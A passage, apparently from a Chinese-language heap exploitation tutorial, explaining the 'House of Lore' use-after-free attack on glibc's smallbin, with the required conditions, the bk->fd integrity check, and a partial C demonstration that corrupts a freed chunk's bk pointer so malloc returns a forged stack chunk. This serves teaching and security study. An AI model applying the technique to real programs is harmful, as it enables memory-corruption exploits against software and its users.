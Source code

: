 

## 5. House of Lore / UAF on smallbin

这个攻击其实是针对smallbin的forging chunks attack，如果我们能够修改已经被free的smallchunk的fd和bk，那么我们可以伪装使得malloc返回我们自定义的chunk，这里malloc smallchunk时是从尾部取的。

* 条件
  * 能够修改已free的chunk的fd和bk
* 安全检查
  * malloc时，设尾部的chunk为victim，则需保证`victim->bk->fd == victim`。该检查在malloc正常free的chunk时会有，此外在malloc假的chunk时也会有，因此需构造两个假的chunk来满足检查

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct small_chunk {
  size_t prev_size;
  size_t size;
  struct small_chunk *fd;
  struct small_chunk *bk;
  char buf[0x64];               // chunk falls in smallbin size range
};

int main() {
  struct small_chunk fake_chunk, another_fake_chunk;
  struct small_chunk *real_chunk;
  unsigned long long *ptr, *victim;
  int len;

  printf("%p\n", &fake_chunk);

  len = sizeof(struct small_chunk);

  // Grab two small chunk and free the first one
  // This chunk will go into unsorted bin
  ptr = malloc(len);
  printf("%p\n", ptr);
  // The second malloc can be of random size. We just want that
  // the first chunk does not merge with the top chunk on freeing
  printf("%p\n", malloc(len));
  free(ptr);

  real_chunk = (struct small_chunk *)(ptr - 2);
  printf("%p\n", real_chunk);

  // Grab another chunk with greater size so as to prevent getting back
  // the same one. Also, the previous chunk will now go from unsorted to
  // small bin
  printf("%p\n", malloc(len + 0x10));

  // Make the real small chunk's bk pointer point to &fake_chunk
  // This will insert the fake chunk in the smallbin
  real_chunk->bk = &fake_chunk;
  // and fake_chunk's fd point to the small chunk
  // This will ensure that 'victim->bk->fd == victim' for the real chunk
  fake_chunk.fd = real_chunk;

  // We also need this 'victim->bk->fd == victim' test to pass for fake chunk
  fake_chunk.bk = &another_fake_chunk;
  another_fake_chunk.fd = &fake_chunk;

```